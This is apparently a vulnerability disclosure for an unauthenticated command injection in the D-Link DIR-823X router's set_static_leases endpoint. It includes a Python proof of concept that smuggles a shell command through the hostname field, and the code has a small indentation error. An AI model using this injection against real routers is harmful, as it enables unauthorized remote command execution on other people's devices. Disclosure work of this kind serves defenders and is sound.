


## Basic Information

Vulnerability Vendor: D-Link Technology Co., Ltd.

Official Website: https://www.dlink.com.cn/

Affected Device Type: Routers

Affected Product: DIR-823X

Affected Product Version: <= V250416


## Vulnerability Overview

The latest version 250416 (250416) of the D-LINK DIR-823X router contains an unauthorized command execution vulnerability. The vulnerability resides in the /usr/sbin/goahead file. Accessing the router's /goform/set_static_leases function and requesting specific fields allows arbitrary command execution without authentication, enabling remote command execution and even shell access.

Download the latest firmware from the official website. [D-Link Technical Support](http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823X)
Locate the /usr/sbin/goahead file and find the function request entry.




Here we can see that the above values are taken and then processed by the sub_415028 function to continue tracking.


Found that the command was finally spliced in




Previously, there was a filter for dangerous characters, but it wasn't completely strict, allowing for command injection.

Access testing revealed normal access without requiring a login.


Try to execute the command to create a file and find that it is successfully executed


## POC

```python
# !/usr/bin/env python3
import requests


TARGET_URL = "http://192.168.122.150/goform/set_static_leases"


reverse_shell_cmd = '" |ls > 1.txt"'


try:
    response = requests.post(
        TARGET_URL,
        data={"hostname": reverse_shell_cmd,"modmun":"1","ipaddr":"192.168.122.150","macaddr":"99"},
        timeout=10
    )
    print(f"请求发送成功，状态码: {response.status_code}")
    print(f"响应内容: {response.text}")

except requests.exceptions.RequestException as e:
print(f"请求失败: {e}")
```


## Vulnerability Impact

An attacker could exploit this vulnerability to execute unauthorized commands and escalate privileges.

## Remediation Solution

Contact the vendor to obtain the security patch and implement a timely vulnerability fix.